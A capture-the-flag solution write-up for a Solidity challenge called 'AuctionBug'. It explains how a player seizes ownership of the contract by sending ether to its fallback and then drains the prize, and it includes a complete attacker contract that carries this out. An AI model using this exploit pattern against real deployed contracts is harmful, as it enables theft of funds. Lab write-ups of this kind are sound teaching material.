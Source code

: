# AuctionBug

## Solution :

To validate this challenge, the user needs to become the contract's owner and call the `withdrawPrice()` function.

To become the owner, he needs to send at least `0.01 ether` to the contract.
For that, he needs to use the `send` method with the contract's address.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/intermediateChalls/AuctionBug.sol";

contract AttackAuctionBug {
	AuctionBug originalContract;

	constructor(address payable _originalContract) public {
		originalContract = AuctionBug(_originalContract);
	}

	function exploit() public payable {
		require(msg.value == 0.2 ether);
		address(originalContract).call.value(0.1 ether)(abi.encodeWithSignature("addToAuction()"));
		address(originalContract).call.value(0.1 ether)("");
		originalContract.withdrawPrice();
	}
}
```
